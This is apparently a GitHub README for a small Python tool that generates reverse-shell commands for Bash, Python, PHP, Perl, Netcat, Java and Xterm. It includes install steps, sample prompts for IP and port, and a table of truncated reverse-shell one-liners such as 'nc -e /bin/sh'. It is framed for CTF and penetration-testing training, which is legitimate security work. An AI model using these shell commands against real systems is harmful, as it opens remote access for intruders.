

# 🔥 Reverse-shell-generator 

## 🚀 Installation
<b>You can use the Reverse Shell Generator script by cloning the repository:</b>
```python
git clone https://github.com/CyberKRY/reverse-shell-generator.git
cd reverse-shell-generator
```
<b>It is recommended to run the script with Python 3 installed on your system. It is cross-platform and does not require any additional libraries.</b>

## Quick Start:
```python
python3 shellgen.py
```
## ✨ Features
<b>
  
* Supports seven languages: Bash, Python, PHP, Perl, Netcat, Java and Xterm.

* Instant generation: Simply select a number, IP address and port to create a reverse shell that is ready to use.

* Colourful CLI interface: Stylish and easy to read thanks to the ANSI layout.

* Minimalism: Lightweight with no dependencies; runs instantly.

* Versatility: Great for CTF, penetration testing, training and automation.
</b>

## 📥 Supported Shells
| № | Язык   | Команда                                |
| - | ------ | -------------------------------------- |
| 1 | Bash   | `bash -i >& /dev/tcp/...`              |
| 2 | Python | `python3 -c 'import socket,...'`       |
| 3 | PHP    | `php -r '$sock = fsockopen(...); ...'` |
| 4 | Perl   | `perl -e 'use Socket; ...'`            |
| 5 | Netcat | `nc -e /bin/sh ...`                    |
| 6 | Java   | `Runtime.getRuntime().exec(...)`       |
| 7 | Xterm  | `xterm -display IP:PORT`               |

## Conclusion:
```python
Enter the Reverse Shell number: 2
Enter IP address: 10.8.0.1
Enter port number: 4444
```
## ⚠️ Warning
> <b>This tool is intended solely for training purposes or legal testing. Only use it in systems where you have authorisation.</b>


<b>Thank you very much for your interest in my robot. This is one of the first scripts I have created, and I will create more and better ones in future. Thank you again.</b>
